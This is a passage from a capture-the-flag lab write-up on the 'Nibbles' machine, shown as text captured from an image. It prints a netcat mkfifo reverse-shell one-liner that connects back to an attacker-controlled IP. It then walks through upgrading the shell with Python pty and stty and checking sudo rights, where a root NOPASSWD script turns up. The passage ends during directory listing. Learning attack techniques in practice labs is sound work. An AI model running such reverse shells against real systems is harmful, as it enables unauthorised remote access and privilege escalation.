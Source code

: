 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4445 >/tmp/f
```

This payload only works if netcat is installed, so run `which netcat` to confirm if the binary is on the system.

On my new shell, I made it fully functional to make it interactive. First, I checked if there was Python

```
ls /usr/bin | grep python                                  
dh_python3             
python3     
python3.5                                                                                                             
python3.5m                                                 
python3m
```

I saw Python 3, so I ran `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a Python shell. Background the reverse shell by clicking `CTRL + Z`, and run the following commands:

```
┌──(tyco㉿4YE)-[~/htb/nibbles]                                                                                        
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4445

<ml/nibbleblog/content/private/plugins/my_image$ reset
reset: unknown terminal type unknown            
Terminal type? screen-256color
```

A fully functional shell! Now we can run `sudo -l` to see if this user can run anything.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We see that the user `nibbler` can run a script as root without a password. Let's take a look.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler

nibbler@Nibbles:/home/nibbler$ ls -la
total 24
drwxr-xr-x 4 nibbler nibbler 4096 Nov 22 20:19 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip 
-r-------- 1 nibbler nibbler   33 Nov 22 19:55 user.txt
```
